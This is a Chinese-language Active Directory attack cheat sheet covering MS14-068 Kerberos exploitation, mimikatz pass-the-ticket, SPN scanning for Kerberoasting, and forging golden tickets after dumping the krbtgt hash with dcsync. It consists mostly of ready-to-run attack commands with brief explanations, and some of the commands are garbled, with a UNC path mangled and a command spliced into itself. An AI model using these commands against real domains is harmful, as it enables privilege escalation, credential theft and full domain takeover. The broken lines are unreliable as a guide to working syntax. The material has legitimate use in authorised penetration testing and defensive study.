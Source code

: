 ##### MS14-068 Kerberos

```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```

利用mimikatz将工具得到的[TGT_domainuser@SERVER.COM.ccache](mailto:TGT_domainuser@SERVER.COM.ccache)写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```

相关阅读 :

- [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676)
- [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
- [Kerberos的安全漏洞](https://adsecurity.org/?p=541)

##### SPN扫描

Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。 SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。 SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。 相关阅读 :

- [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/)
- [SPN扫描](https://adsecurity.org/?p=1508)
- [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon)

##### Kerberos的黄金门票

在域上抓取的哈希

```ABAP
lsadump::dcsync /domain:pentest.com /user:krbtgt

kerberos::purge

kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 
/ticket:adinistrator.kiribi

kerberos::ptt administrator.kiribi

kerberos::tgt

net use k: \pnet use k: \pentest.comc$
```

相关阅读 :

- https://adsecurity.org/?p=1640
- [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html)
- [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231)
- [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/)
